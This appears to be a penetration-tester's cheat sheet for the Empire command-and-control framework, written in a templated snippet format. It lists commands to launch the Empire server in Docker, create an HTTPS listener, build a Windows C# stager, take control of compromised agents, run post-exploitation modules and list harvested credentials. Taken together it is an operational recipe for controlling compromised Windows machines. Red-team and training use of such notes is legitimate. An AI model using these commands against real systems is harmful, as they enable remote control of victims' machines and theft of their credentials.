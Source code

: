 # empire server

% empire, windows, c2
#plateform/linux #target/remote  #cat/C2

## server - pull latest image
```bash
docker pull bcsecurity/empire:latest
```

## server - start
```bash
docker run -it -p 1337:1337 -p 5000:5000 -p 0.0.0.0:<empire_listener_port>:<empire_listener_port> bcsecurity/empire:latest
```

## server - start (persistent storage)
```bash
docker create -v <empire_storage_path> --name data bcsecurity/empire:latest && docker run -it -p 1337:1337 -p 5000:5000  -p 0.0.0.0:<empire_listener_port>:<empire_listener_port> --volumes-from data bcsecurity/empire:latest
```



## client - start
```bash
empire-client --config ~/empire-client.yaml
```

## listerner - create https listener
```bash
uselistener http
set Name <empire_listener_name>
set Host https://<local_ip>
set Port <empire_listener_port> 
set CertPath /empire/server/data
execute
main
```

## listerner - list 
```bash
listeners
```

## listerner - kill
```bash
kill <empire_listener_name>
```

## stager - create csharp
```bash
usestager windows_csharp_exe
set DotNetVersion net35
set Listener <empire_listener_name>
execute
```

## agent - interact
```bash
interact <agent_name>
```

## agent - rename
```bash
rename <old_agent_name> <new_agent_name>
```

## module - library
```bash
https://www.infosecmatter.com/empire-module-library/
```

## module - use
```bash
usemodule <empire_module_name>
set Agent <empire_agent_name>
options
execute
```



## credentials - list
```bash
credentials
```


## plugins - chiselserver
```bash
```

## plugins - socksproxyserver
```bash
```


